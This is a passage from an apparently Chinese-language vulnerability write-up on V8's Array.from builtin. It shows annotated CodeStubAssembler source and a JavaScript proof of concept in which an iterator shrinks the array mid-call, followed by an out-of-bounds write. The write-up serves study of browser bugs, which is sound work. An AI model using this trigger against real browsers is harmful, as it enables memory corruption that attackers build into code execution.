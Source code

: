 ```c++
        ThrowTypeError(context, MessageTemplate::kCalledNonCallable, map_function);

        // no_error分支
        BIND(&no_error);
    }

    // 创建是否可迭代分支
    Label iterable(this), not_iterable(this), finished(this), if_exception(this);

    TNode<Object> this_arg = args.GetOptionalArgumentValue(2);
    TNode<Object> items = args.GetOptionalArgumentValue(0);
    // The spec doesn't require ToObject to be called directly on the iterable
    // branch, but it's part of GetMethod that is in the spec.
    TNode<JSReceiver> array_like = ToObject(context, items);

    TVARIABLE(Object, array);
    TVARIABLE(Number, length);
```

这段代码为一种叫作`CodeStubAssembler`的DSL，V8官方博客有对这种语言的使用介绍
- https://v8.dev/blog/csa

我们可以读一下这段代码，其实挺简单的，注释我都写好了

在理解了`CodeStubAssembler`大概的语法之后

我们可以开始讲今天的漏洞

首先来看Poc，先创建了一个数组，然后对这个数组做`Array.from()`调用，里面重新定义了迭代函数
```javascript
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        max : 1024 * 1024 * 8,
        next() {
            let result = this.counter++;
            if (this.counter == this.max) {
                oobArray.length = 0;
                return {done: true};
            } else {
                return {value: result, done: false};
            }
        }
    }
) });
oobArray[oobArray.length - 1] = 0x41414141;
```

我们来看这个函数的定义
- https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Array/from
